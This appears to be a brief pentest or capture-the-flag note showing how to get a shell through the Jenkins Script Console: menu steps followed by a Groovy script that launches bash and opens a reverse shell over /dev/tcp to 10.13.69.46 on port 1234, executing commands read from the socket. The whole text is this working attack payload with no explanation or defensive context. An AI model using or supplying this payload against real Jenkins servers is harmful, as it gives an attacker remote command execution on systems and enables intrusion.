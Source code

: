 

1. Manage Jenkins
2. Tools and Actions
3. Script Console

```
r = Runtime.getRuntime()

p = r.exec(['/bin/bash', '-c', 'exec 5<>/dev/tcp/10.13.69.46/1234; cat <&5 | while read line; do $line 2>&5 >&5; done'] as String[])

p.waitFor()
```


